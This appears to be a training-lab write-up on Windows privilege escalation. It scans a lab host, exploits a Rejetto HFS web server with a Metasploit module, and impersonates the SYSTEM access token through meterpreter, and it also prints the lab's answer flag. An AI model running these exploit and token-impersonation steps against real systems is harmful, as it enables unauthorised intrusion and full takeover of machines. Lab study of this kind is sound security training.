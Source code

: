 # 🔬Access Token

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> * Target IP: `10.0.28.102`
> * **Access Token impersonation**

### Enumeration

```bash
root@attackdefense:~# nmap 10.0.28.102
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-06 11:22 IST
Nmap scan report for 10.0.28.102
Host is up (0.0018s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

* Determine the version information of the web server on port `80`

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Without using `nmap`, the `http` server version can be checked in a browser by opening the link

* `http://10.0.28.102/`

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
msfconsole -q
msf6 > search rejetto
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > show options
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.28.102
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Access is denied because current user `LOCAL SERVICE` don't have access to an privileges user account
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

#### **Access Token Impersonation**

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Listing tokens with this account, there can be additional available tokens

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
* Get the flag of the lab:

```bash
cd C:\\Users\\Administrator\\Desktop\\
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: x28c832a39730b7d46d6c38f1ea18e12
{% endhint %}

